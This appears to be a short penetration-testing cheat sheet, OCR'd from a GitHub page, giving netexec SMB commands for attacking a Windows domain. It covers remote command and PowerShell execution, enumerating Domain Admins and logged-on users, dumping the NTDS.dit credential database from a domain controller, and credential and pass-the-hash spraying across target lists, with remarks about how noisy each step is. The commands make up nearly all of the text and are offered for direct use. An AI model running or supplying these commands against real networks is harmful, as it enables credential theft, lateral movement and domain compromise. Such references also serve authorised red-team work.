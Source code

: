 * Pass cmd

```bash
sudo netexec smb ip -u user -p 'password' -x 'command'
```

* Pass powershell

```bash
sudo netexec smb ip -u user -p 'password' -X 'command'
```

* Look at domain admins

```bash
sudo netexec smb ip -u user -p 'password' -x 'net group "Domain Admins" /domain'
```

* Look at logged on users

```bash
sudo netexec smb ip -u user -p 'password' --loggedon-users
```

* Look at NTDS.dit Use with CAUTION. Is loud and may cause DC to crash.

```bash
sudo netexec smb dc-ip -u domain-admin-user -p 'password' --ntds
```

* Find out what machines a user can successfully log onto This is LOUD - use it with caution

```bash
sudo netexec smb targets.txt -u user -p 'password'
sudo netexec smb targets.txt -u user -H 'hash'
```
